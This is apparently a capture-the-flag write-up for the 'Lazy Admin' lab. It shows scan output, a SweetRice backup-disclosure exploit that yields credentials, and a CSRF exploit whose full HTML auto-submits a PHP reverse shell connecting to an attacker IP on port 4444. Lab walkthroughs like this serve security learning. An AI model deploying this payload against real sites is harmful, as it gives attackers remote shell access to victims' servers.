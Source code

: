 # Lazy Admin

IP - 


## Scanning and Enumeration

nmap -
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
```


dirsearch - 
```
[14:06:23] 403 -   278B - /.php

[14:06:23] 403 -   278B - /.php3

[14:06:46] 301 -   316B - /content  ->  http://10.10.183.245/content/

[14:06:47] 200 -    2KB - /content/

[14:06:54] 200 -   11KB - /index.html

[14:07:09] 403 -   278B - /server-status

[14:07:09] 403 -   278B - /server-status/
```



Found out website can be accessed through this path - /content/as

![image](https://github.com/user-attachments/assets/51bafbb8-adff-44f7-a2a5-12551b7fbb69)


## Exploit
- Found SweetRice backup disclosure that allows you to access all mysql backup and download it.

reference - https://www.exploit-db.com/exploits/40718
![image](https://github.com/user-attachments/assets/0b749176-2249-4032-acb1-ea09d1964fac)


- Inside the file there is username and password to log in as "admin".
![image](https://github.com/user-attachments/assets/9a346bcd-f5b9-4532-8086-7b4cba808d90)


## Crack the Hash
![image](https://github.com/user-attachments/assets/e79a5b30-aa5f-4f72-88b9-b92cc96e7465)

- Successfully logged in using: Username: manager  |  Password: Password123
![image](https://github.com/user-attachments/assets/d731429e-a0a3-4dcb-b57b-9b80688c913f)


- Followed the instructions first saw at the beginning of the lab in http://10.10.51.35/content/ "If you are the webmaster,please go to Dashboard -> General -> Website setting and uncheck the checkbox "Site close" to open your website."

- Went back to http://10.10.51.35/content/ and refreshed the page.

![image](https://github.com/user-attachments/assets/a8bd759c-3a56-444b-a416-48fe396b60fc)

## PHP Reverse Shell
Found a vulnerability by using searchexploit (SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Ex | php/webapps/40700.html)


![image](https://github.com/user-attachments/assets/890c43c5-f2f2-43a4-b6e2-ee1ea0587c61)


Successfully gained php reverse shell by modifying it and adding it to the ads code and saving it in the website:
```
<html>
<body onload="document.exploit.submit();">
  <form action="http://10.10.51.35/content/as/?type=ad&mode=save" method="POST" name="exploit">
    <input type="hidden" name="adk" value="shell"/>
    <textarea name="adv">
<?php
$ip = '10.6.41.41';
$port = 4444;
$sock=fsockopen($ip, $port);
$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
    </textarea>
  </form>
</body>
</html>

```

![image](https://github.com/user-attachments/assets/92c6a103-5184-47c7-acdb-ccfe55461180)





